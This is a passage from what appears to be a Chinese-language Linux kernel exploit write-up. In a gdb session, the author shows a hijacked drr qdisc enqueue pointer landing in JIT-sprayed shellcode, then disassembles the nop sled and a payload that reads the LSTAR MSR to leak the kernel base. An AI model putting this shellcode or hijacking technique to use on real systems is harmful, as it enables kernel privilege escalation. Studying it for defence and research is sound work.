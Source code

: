 　　‍

　　在 drr\_enqueue 中下断点打印 cl->qdisc->enqueue 处的指令：

```plain
(gdb) list
343                             qdisc_qstats_drop(sch);
344                     __qdisc_drop(skb, to_free);
345                     return err;
346             }
347
348             first = !cl->qdisc->q.qlen;
349             err = qdisc_enqueue(skb, cl->qdisc, to_free);
350             if (unlikely(err != NET_XMIT_SUCCESS)) {
351                     if (net_xmit_drop_count(err)) {
352                             cl->qstats.drops++;
(gdb) p cl
$3 = (struct drr_class *) 0xffff88813720ba00
(gdb) p cl->qdisc
$4 = (struct Qdisc *) 0xfffffe000003df58
(gdb) p cl->qdisc->enqueue
$6 = (int (*)(struct sk_buff *, struct Qdisc *, struct sk_buff **)) 0xffffffffcc000800
(gdb) x/4i 0xffffffffcc000800
   0xffffffffcc000800:  nop
   0xffffffffcc000801:  nop
   0xffffffffcc000802:  nop
   0xffffffffcc000803:  mov    bl,0xb8
    .......................
   .......................
   0xffffffffcc001e15:  mov    bl,0xb8
   0xffffffffcc001e17:  nop
   0xffffffffcc001e18:  nop
   0xffffffffcc001e19:  nop
   0xffffffffcc001e1a:  mov    bl,0xb8
   0xffffffffcc001e1c:  nop
   0xffffffffcc001e1d:  nop
   0xffffffffcc001e1e:  nop
   0xffffffffcc001e1f:  mov    bl,0xb8   ---> 真实 shellcode 部分
   0xffffffffcc001e21:  xor    ecx,ecx
   0xffffffffcc001e23:  nop
   0xffffffffcc001e24:  cmp    al,0xb8
   0xffffffffcc001e26:  xor    edx,edx
   0xffffffffcc001e28:  nop
   0xffffffffcc001e29:  cmp    al,0xb8
   0xffffffffcc001e2b:  mov    cl,0xc0
   0xffffffffcc001e2d:  nop
   0xffffffffcc001e2e:  cmp    al,0xb8
   0xffffffffcc001e30:  shl    ecx,0x18
   0xffffffffcc001e33:  cmp    al,0xb8
   0xffffffffcc001e35:  mov    cl,0x82
   0xffffffffcc001e37:  nop
   0xffffffffcc001e38:  cmp    al,0xb8
   0xffffffffcc001e3a:  rdmsr  
   0xffffffffcc001e3c:  nop
   0xffffffffcc001e3d:  cmp    al,0xb8
   0xffffffffcc001e3f:  xor    ecx,ecx
   0xffffffffcc001e41:  nop
   0xffffffffcc001e42:  cmp    al,0xb8
   0xffffffffcc001e44:  mov    cl,0x20
   0xffffffffcc001e46:  nop
   0xffffffffcc001e47:  cmp    al,0xb8
   0xffffffffcc001e49:  shl    rdx,cl
   0xffffffffcc001e4c:  cmp    al,0xb8
   0xffffffffcc001e4e:  add    rdx,rax
   0xffffffffcc001e51:  cmp    al,0xb8
```